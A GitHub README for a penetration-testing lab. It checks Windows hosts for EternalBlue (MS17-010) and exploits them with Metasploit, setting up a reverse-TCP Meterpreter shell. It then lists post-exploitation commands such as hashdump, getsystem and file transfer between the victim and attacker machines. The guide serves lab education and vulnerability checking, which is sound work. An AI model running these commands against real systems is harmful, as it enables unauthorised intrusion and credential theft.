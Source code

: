# Metasploit-Win2K8-Lab

## DISCLAIMER!!!

This repository is a step-by-step guide intended for educational and ethical penetration testing purposes only, to inform and demonstrate how to execute the EternalBlue (MS17-010) vulnerability on Windows 7/Windows 2008 Server, and how to secure said machines.

⚠️ **DO NOT ATTEMPT TO REPRODUCE THIS EXPLOIT ON ANY SYSTEM THAT YOU DO NOT OWN OR HAVE PERMISSION TO TEST ON. UNAUTHORIZED USE OF THE SHOWN TECHNIQUES ARE ILLEGAL.**

Under **18 U.S. Code § 1030 – Fraud and related activity in connection with computers** (Computer Fraud and Abuse Act), unauthorized access to computer systems is a federal offense punishable by **fines and imprisonment**.

---

# Prerequisites

Minimum System Requirements:  
* 4-8 GB Ram  
* 2-4 Cores  
* 30 GB Storage  

> VMware installed on WINDOWS  
Kali Linux, Install the prebuilt VMware VM from the offical website: **https://www.kali.org/get-kali/#kali-virtual-machines**  
Vulnerable Windows system. Link to my Windows Server 2008 VM :  

---

# About EternalBlue (MS17-010)

EternalBlue (MS17-010) is a severe vulnerability that exploits a buffer overflow flaw in Microsoft's Server Message Block (SMBv1) protocol, allowing attackers to gain access to the victim, and perform remote code execution on unpatched systems. It was developed and used by the U.S. National Security Agency (NSA), and later leaked by the Shadow Brokers hacking group. The EternalBlue exploit was notoriously used by the WannaCry hacking group. WannaCry would exploit a victim via EternalBlue, then upload their Ransomware worm, automatically spreading and infecting other devices on the network.

---

# Checking for MS17-010

***Windows:***    

Eternalblue exploits the SMBv1 protocol, we could check its status to see whether the system may be vulnerable. We could do this using this powershell command:  
``` powershell
$regPath = "HKLM:\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters"
Get-ItemProperty -Path $regPath -Name SMB1

```
the output should look like of the following
``` powershell
SMB1         : 1
PSPath       : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Pa
               rameters
PSParentPath : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer
PSChildName  : Parameters
PSDrive      : HKLM
PSProvider   : Microsoft.PowerShell.Core\Registry
```
if SMBv1 is set to 0, SMBv1 is **disabled** and the system is **not vulnerable.**
if its set to 1, SMBv1 is **Enabled** and the system could be at risk if unpatched. To Definitively check the systems vulnerability you could run the following command to check if the EternalBlue patch is installed.   

Using cmd or powershell run:
``` powershell
wmic qfe get HotFixID | findstr KB4012212
```
If nothing is returned the patch is not installed and the system is at risk of being vulnerable. **if SMBv1 is enabled the system is vulnerable.**        

---

***Linux:***  
There are a few ways to check if a Windows system is vulnerable using Linux. The first method I'll demonstrate is by using the nmap command. You can use the **--script=vuln** option to run a collection of vulnerability scanning scripts from the Nmap library, which attempts to find all possible vulnerabilities the target might have. You could also use the "--script=smb*" option to run all of Nmap’s SMB related scripts, or the **--script=smb-vuln-ms17-010** option, which scans for the EternalBlue vulnerability exclusively and is the fastest. For our example, we’ll be using this last one.  
Using a shell input the following:
``` bash
nmap -sS -T4 XXX.XXX.XXX.XXX --script=smb-vuln-ms17-010
# -sS = optional, does not complete the full 3 way handshake, dropping the connection once we recieve the syn/ack flag
# -T4 = optional, increases scan speed by reducing probe delay, sending pings faster (250ms between) to make the scan quicker.
# XXX.XXX.XXX.XXX = system that will be scanned.
# --script=smb-vuln-ms17-010 = nmaps script to scan whether the machine is vulnerable to EternalBlue (MS17-010). 
```  
if vulnerable the output will look similar to the image below, with the smb-vuln-ms17-010 script stating the device is **VULNERABLE**, giving the Microsoft security code regarding the vulnerability, [MS17-010](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010)
 and the associated CVE identifier, [CVE-2017-0143](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143).


![image](https://github.com/user-attachments/assets/a0aab1fc-0025-431f-a069-3d820c3457c0)  

The second method for checking if a system is vulnerable to the EternalBlue (MS17-010) exploit is by using Metasploit Framework's MS17-010 auxiliary module. Here is the process for scanning:

``` bash
msfconsole
# Launches the Metasploit Framework

msf6 > use auxiliary/scanner/smb/smb_ms17_010
## sets the auxilary scanning module we will use to check MS17-010 vulnerability status

msf6 auxiliary(scanner/smb/smb_ms17_010) > set RHOSTS XXX.XXX.XXX.XXX
# Sets the Remote Host (system we are scanning)

msf6 auxiliary(scanner/smb/smb_ms17_010) > Show options
# shows options we've set for our module/payload, verify before running it.

msf6 auxiliary(scanner/smb/smb_ms17_010) > exploit
```  

 Once run, if the machine is vulnerable, the output would look like:  

![image](https://github.com/user-attachments/assets/bc32b8af-8e92-4d84-b7a2-d7559a96d794)

---

# Exploitation

Now that we know that the system is vulnerable, we could exploit it using the following commands:
``` bash
msfconsole

msf6 > use exploit/windows/smb/ms17_010_eternalblue
# or use the module below, either could work. If you're having issues with one, try the other
msf > use exploit/windows/smb/ms17_010_psexec

msf6 exploit(windows/smb/ms17_010_eternalblue) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
# You could set a variety of different payloads, in this example I will be using a reverse TCP Meterpreter payload.
# The EternalBlue exploit only works with x64 payloads. To check the available payloads, you could run [show payloads]
# Recommended payloads:
# /windows/x64/meterpreter/bind_tcp (Meterpreter shell, attacker creates listener, victim connects)
# /windows/x64/meterpreter/reverse_tcp (Meterpreter shell, victim creates listener, attacker connects)
# /windows/x64/meterpreter/reverse_http (Meterpreter shell, victim connects over HTTP, attacker listens [more stealthy])
# /windows/x64/shell/bind_tcp (cmd.exe shell, attacker creates listner, victim connects)
# /windows/x64/shell/reverse_tcp (cmd.exe shell, victim creates listener, attacker connects)

msf6 exploit(windows/smb/ms17_010_eternalblue) > Set RHOSTS XXX.XXX.XXX.XXX

msf6 exploit(windows/smb/ms17_010_eternalblue) > Set RPORT 445
# RPORT = SMB's vulnerable port, not necessary as the exploit specifies 445 by default. Change only if port forwarding.

msf6 exploit(windows/smb/ms17_010_eternalblue) > Set LHOST XXX.XXX.XXX.XXX
# LHOST = Local HOST, your attacking machine's IP

msf6 exploit(windows/smb/ms17_010_eternalblue) > Set LPORT 1337
# LPORT = Local PORT, used only for reverse payloads. Can be set to any ephemeral high port (1000–65535)

msf6 exploit(windows/smb/ms17_010_eternalblue) > Show Options

msf6 exploit(windows/smb/ms17_010_eternalblue) > Exploit
```  
if the exploit is successful, the output should look like the image below, and you will have access to a shell.  

![image](https://github.com/user-attachments/assets/12d1fb14-cbd2-4b4a-b006-7ab892ac3a80)

---

# Post-Exploitation

once we have access to the machine, and preferably have a Meterpreter shell open, we can perform post exploitation. Meterpreter is a powerful shell that provides a versatile  set of tools not available through CMD or Powershell. Below are some useful meterpreter commands to get started.

``` Meterpreter
meterpreter > sysinfo
# Provides similar output to CMD's systeminfo command

meterpreter > ipconfig
meterpreter > ifconfig
# Provides networking information on the victim

meterpreter > getuid
# Displays the user your Meterpreter shell is running as

meterpreter > ps
# Shows all running processes

meterpreter > migrate <pid>
# Migrates the Meterpreter shell to a different process. Can be used for privilege escalation or stability

meterpreter > getsystem
# Attempts to elevate your Meterpreter shell to NT AUTHORITY\SYSTEM using built-in techniques

meterpreter > hashdump
# Extracts user accounts and their associated password hashes from the SAM database; hashes can be cracked using John or Hashcat

meterpreter > upload "/home/attacker/file.ps1" "C:\Windows\Victim\file.ps1"
# Uploads a file from the attacker's machine to the victim

meterpreter > download "C:\Windows\Victim\filetodownload.txt" "/home/attacker/downloaded.txt"
# Downloads a file from the victim machine to the attacker's machine

meterpreter > shell
# Launches a CMD shell on a Windows victim or a Bash shell on a Linux victim
```
